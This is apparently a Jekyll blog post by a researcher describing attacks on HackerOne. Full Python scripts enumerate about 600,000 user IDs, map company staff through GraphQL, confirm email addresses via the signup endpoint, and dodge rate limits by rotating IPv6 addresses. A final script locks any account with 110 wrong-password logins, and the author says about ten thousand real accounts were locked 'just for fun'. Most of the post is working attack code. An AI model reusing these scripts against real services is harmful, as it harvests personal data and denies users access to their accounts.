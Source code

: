 ```yaml
---
layout: post
title:  Enum H1 Staff and Users email addresses and Lock accounts
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - CongRong</p>

I found https://hackerone.com/sitemap.json a few months ago, but saw that only users starting withawere returned, but later I found out that it can be accessed via the parameter`first`Enumerate all users:

{% highlight http %}
https://hackerone.com/sitemap.json?first=[a-z]
{% endhighlight %}

After I got the id of nearly 600,000 users, thinking about how to use this data to maximize the harm?

So I thought of three ideas:

1. By requesting the `graphql` interface, query the team that each user belongs to. Reverse this result into: List of companies-> Staff. (Unrestricted)
2. Merge all common email addresses with ids, and enumerate whether the email addresses exists in the registration interface. (Limited, but can be bypassed with more IPv6)
3. Finally, you can use the blasted email addresses to log-in to the interface and request more than 100+ wrong passwords to lock your account. XD

## 0x01 Company -> Staff:

{% highlight python %}
#!/usr/bin/env python
#coding:utf-8

import os
import time
import json
import string
import requests

def main(name):
    print name
    datas = {"operationName":"getTeams","variables":{"username":"{}".format(name)},"query":"query getTeams($username: String!) {\n  user(username: $username) {\n    memberships(first: 10, where: {concealed: {_eq: false}}) {\n      total_count\n      edges {\n        node {\n          id\n          team {\n            id\n            name\n            handle\n            state\n            profile_picture(size: small)\n            __typename\n          }\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}

    headers={
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
        "content-type": "application/json",
        "x-auth-token": "----",
        "Connection": "close"
    }
    try:
        r = requests.post("https://hackerone.com/graphql",headers=headers , data=json.dumps(datas), timeout=5)
        ret = json.loads(r.content)['data']['user']['memberships']
        if isinstance(ret['total_count'],int):
            f = open("done.txt",'a')
            f.write(name + '\n')
            f.close()

            if ret['total_count'] != 0:
                results = {name:[team['node']['team']['handle'] for team in ret['edges']]}
                print results
                with open("results/{}.txt".format(name),'w') as fp:
                    json.dump(results, fp, indent=4, ensure_ascii=False)
    except Exception,e:
        print e

if __name__ == '__main__':
    done = [i.strip() for i in open("done.txt")]
    for i in string.lowercase:
        with open("{}.txt".format(i)) as f:
            jf = json.load(f)
            for k in jf['users']:
                if k['username'] not in done:
                    ret = main(k['username'])
{% endhighlight %}

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa2.png)

After reversing, the staff corresponding to the company is generated:

{% highlight python %}
#coding:utf-8

import os
import json
import string

def main():
	companys = {}
	staffs = os.listdir('results')
	for sf in filter(lambda x:x[-4:] == '.txt',staffs):
		staff = sf[:-4]
		with open('results/{}'.format(sf)) as f:
			sTmp = json.load(f)
			for c in sTmp.values()[0]:
				if c not in companys.keys():
					companys[c] = []
				companys[c].append(staff)

	profiles = {}

	for i in string.lowercase:
		with open("{}.txt".format(i)) as f:
			jf = json.load(f)
			for k in jf['profiles']:
				profiles[k['handle']] = k['name']

	f = open("staffList.txt",'a')
	f.write("| Company (347) | Staff (3488) |\n| --- | --- |\n")
	for k,v in companys.items():
		inc = profiles[k] if k in profiles.keys() else k
		users = []
		for u in v:
			users.append("[{}](https://hackerone.com/{})".format(u,u))
		f.write('| [{}](https://hackerone.com/{}) | '.format(inc,k) + '、'.join(users) + ' |\n')
	f.close()


if __name__ == '__main__':
	main()
{% endhighlight %}

So I have a list of `347` teams corresponding to `3488` staff XD

<a href="https://github.com/Symbo1/HackerOne-Staffs" target="_blank">https://github.com/Symbo1/HackerOne-Staffs</a>

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa3.png)

## 0x02 Enumeration email addresses:

Under normal circumstances, the registered API will be frequency-limited, but can be bypassed by adding a large number of IPv6 enumerations:

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa4.png)

Here only use gmail for testing, in fact, you can also add outlook, yahoo, mail.ru ...

{% highlight python %}
import json
import random
import string
import requests
import netifaces
from gevent import monkey
from gevent.pool import Pool
from requests_toolbelt.adapters import source

monkey.patch_all()
interfaces = 'ens3'

ips = []
for ipv6 in netifaces.ifaddresses(interfaces)[netifaces.AF_INET6]:
	if not ipv6['addr'].split(':')[0] == "fe80":
		ips.append(ipv6['addr'].split('%')[0])

def main(username):
	print username
	email = "{}@gmail.com".format(username)
	datas = {
		"user[email]": email
	}

	headers={
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept":"application/json, text/javascript, */*; q=0.01",
		"X-CSRF-Token":"...",
		"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
		"X-Requested-With":"XMLHttpRequest",
		"Cookie": "...",
		"Connection":"keep-alive"
	}
	try:

		s = requests.Session()
		new_source = source.SourceAddressAdapter(random.choice(ips))
		s.mount('http://', new_source)
		s.mount('https://', new_source)

		r = s.post("https://hackerone.com/users",headers=headers , data=datas, timeout=5)
		ret = json.loads(r.content)["errors"]
		if ret:
			f = open("email-done.txt",'a')
			f.write(username + '\n')
			f.close()
			if "email" in ret.keys():
				print email
				f = open("emails.txt",'a')
				f.write(email + '\n')
				f.close()
	except Exception,e:
		print e

if __name__ == '__main__':
	tasks = []
	done = [i.strip() for i in open("email-done.txt")]
	for i in string.lowercase[:1]:
		with open("{}.txt".format(i)) as f:
			jf = json.load(f)
			for k in jf['users']:
				if k['username'] not in done:
					tasks.append(k['username'])
	pool = Pool(20)
	pool.map(main, tasks)
{% endhighlight %}

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa5.png)

After enumerating `30k+` ID's I stopped the testing, and `2887` of them returned with success: (ps. emmmm悄悄的说，后来我获取到了几万)

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa0.png)

As such, for total `600k` ID's, we may be able to get at least tens thousands of valid email addresses.

## 0x03 Lock accounts:

{% highlight python %}
import sys
import random
import string
import requests
import netifaces
from gevent import monkey
from gevent.pool import Pool
from requests_toolbelt.adapters import source

monkey.patch_all()
interfaces = 'ens3'

ips = []
for ipv6 in netifaces.ifaddresses(interfaces)[netifaces.AF_INET6]:
	if not ipv6['addr'].split(':')[0] == "fe80":
		ips.append(ipv6['addr'].split('%')[0])

def main(email):
	datas = {
		"email":email,
		"password":''.join(random.sample(string.lowercase,10)),
		"remember_me":"false"
	}

	headers={
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept":"application/json, text/javascript, */*; q=0.01",
		"X-CSRF-Token":"...",
		"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
		"X-Requested-With":"XMLHttpRequest",
		"Cookie": "...",
		"Connection":"keep-alive"
	}
	try:

		s = requests.Session()
		new_source = source.SourceAddressAdapter(random.choice(ips))
		s.mount('http://', new_source)
		s.mount('https://', new_source)

		r = s.post("https://hackerone.com/sessions",headers=headers , data=datas, timeout=5)
		print "password: {} {}".format(datas['password'],r.content)
	except Exception,e:
		print e

if __name__ == '__main__':
	tasks = [sys.argv[1]]*110
	pool = Pool(20)
	pool.map(main, tasks)
{% endhighlight %}

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa7.png)

After 100+ login attempts with incorrect passwords, the account was locked out successfully.

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa6.png)

If I want to lock someone's account, I just need to enumerate the email addresses and then loop the script. Because the session will be invalidated after being locked, and the `unlock token` is unique each time it is locked.

## 0x04 End.

后来的故事就是封了万个号，h1官方进行了修正，并向被锁账号们群发了该事件的邮件：

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa10.png)

Just For Fun :]